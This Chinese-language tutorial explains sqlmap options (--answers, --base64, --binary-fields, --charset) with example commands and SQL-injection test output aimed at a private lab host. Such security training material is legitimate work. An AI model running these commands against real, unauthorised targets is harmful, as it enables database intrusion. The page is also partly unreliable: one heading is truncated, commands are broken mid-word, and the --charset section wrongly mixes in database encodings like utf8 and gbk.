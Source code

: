 > 实现sqlmap自动化, 不需要人为的回答问题.

## wers

> 在使用了` --batch`参数的情况下, sqlmap会自动回答问题. 
>
> 但是有部分问题, 我们想自己回答, 此时就用  `--answers`进行指定. 
>
> 可以用 **逗号(,)**来分隔多个指定的问题的内容. 

```
$ python sqlmap.py -u "http://192.168.22.128/sqlmap/mysql/get_int.php?id=1"--te\
chnique=E --answers="extending=N" --batch

[xx:xx:56] [INFO] testing for SQL injection on GET parameter 'id'
heuristic (parsing) test showed that the back-end DBMS could be 'MySQL'. Do you 
want to skip test payloads specific for other DBMSes? [Y/n] Y
[xx:xx:56] [INFO] do you want to include all tests for 'MySQL' extending provide
d level (1) and risk (1)? [Y/n] N
```



## --base64

> 有些网站是用base64加密存储数据的, 所以我们需要对于请求的参数进行base64加密处理. 

```
python sqlmap.py -u http://192.168.22.128/sqlmap/mysql/get_base64?value=eyJpZC\
I6IDF9 -v 5 --base64=value
```



## --binary-fields

> 对于拿到的二进制的值, 将对其破解. 但是sqlmap破解出来的是16进制的形式. 所以此时需要用到其他工具 例如:john



## --charset 

> 对于布尔盲注和时间盲注, 我们可用这个参数来指定使用的字符集, 以便于提高效率.  例如:  
>
> ```
> `charset = "0123456789abcdef"`  自定义字符集使用0 ~ 9 , 以及字母 a到f.
> --charset=utf8：使用UTF-8字符集。
> --charset=utf8mb4：使用UTF-8MB4字符集。
> --charset=gbk：使用GBK字符集。
> --charset=latin1：使用Latin1字符集。
> --charset=utf16le：使用UTF-16 Little Endian字符集。
> --charset=utf16be：使用UTF-16 Big Endian字符集。
> ```



